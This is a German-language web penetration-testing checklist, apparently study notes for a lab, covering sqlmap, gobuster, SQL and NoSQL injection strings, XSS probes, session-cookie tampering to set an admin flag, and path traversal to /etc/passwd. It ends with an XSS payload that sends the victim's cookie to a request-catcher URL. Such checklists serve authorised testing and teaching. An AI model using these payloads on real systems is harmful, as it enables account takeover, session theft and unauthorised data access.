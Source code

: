 ## Checkliste Web-Pentesting
1. Passive & Active Scan mit OWASP ZAP / Mit Authentication und Proxy

2. Nach SQLi suchen
	- sqlmap
	`sqlmap.py -u [POST-GET-URL] --dbs`
	
	- Zeichen Injection
	`'` `;` `&&`
	[SQLi Cheat Sheet (1)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
	[SQLi Cheat Sheet (2)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

	- No-SQL-Attack-Suite
	`python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass`
	
	- NoSQLi Bypass Login
	`{"$ne": 0}`
	`{"$ne": -1}`
	`{"$gt":""}`

3. Nach XSS-Schwachstellen suchen
	- Manuelle Injection mit `<script>alert("XSS");</script>`
	- Automatisierte Injection mit [traxss](https://www.geeksforgeeks.org/traxss-automated-xss-vulnerability-scanner/)
	`python3 traxss.py`
	`python3 xsstrike.py -u [URL]`

4. Session Cookie admin flag prüfen
	- Session Cookies beginnen meist mit `ey`
	- Cookiename behinhaltet meistens Session
	- In ZAP nach Login das Session Cookie abrufen / Oder in Browser Console
	![[CleanShot 2022-09-28 at 09.55.23.png]]
	- Prüfen ob Session Cookie einfach verschlüsselt ist ([CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')))	
	- Wenn Session Cookie entschlüsselbar versuchen admin Flag zu setzen
		- Meist `role:user` > `role:admin`  oder `admin:0` > `admin:1` 
	- Session Cookie über Browser Console eingeben oder direkt im Storage teil editieren `document.cookie="_sess=eyJ1c2VybmFtZSI6ImxlZXRoYWNrZXIiLCJhZG1pbiI6MX0="`
	![[CleanShot 2022-10-27 at 20.34.55.png]]

5. Mit dirbuster / gobuster Website auf versteckte Verzeichnise Scannen 
	`dirb [URL] [WORDLIST]`
	`gobuster dir -u [URL] -w [WORDLIST]`

6. Testen ob Seiten existieren
	- 403 / 404 kann Hinweis geben ob Seite existiert oder nicht (Beispiel ob User-Profil existiert oder nicht)

7. HTML Source Code checken
	- Kommentare mit Test Username / Links
	- Eingesetzte Software (-version)

8. URL prüfen
	- URL manipulieren. Beispiel ID ändern:
		`http://localhost:2501/updateblog?id=7`
	
	- POST-URL manipulieren
		![[CleanShot 2022-10-26 at 21.13.50.png]]
	
	- Path Traversal / Local file Inclusion (Auf versteckte Dateien prüfen)
	`http://localhost:2501/../../../../../../../etc/passwd`
	`http://localhost:2501/app.php?page=../../../../../../etc/passwd`

9. Berechtigung auf Unterseiten testen
	- Testen ob der Zugriff auf gewisse URLs auch als nicht berechtigter User oder Besucher funktioniert

10. Testen auf Fehlermeldungen
	- Zuviele Details in Fehlermeldungen können als Sicherheitslücke bewertet werden

## Tipps
- Persisten Log in Browser Network Console aktivieren
![[CleanShot 2022-10-13 at 20.32.05.png]]

- Session Cookie in Browser ändern (Browser Tools > Storage > Nach "session" suchen)
![[CleanShot 2022-10-30 at 20.00.46.png]]

- Cookie an Request Catcher senden (XSS)
```
<script>document.location="[URL-Request-Catcher]?cookie=" + document.cookie;</script>
```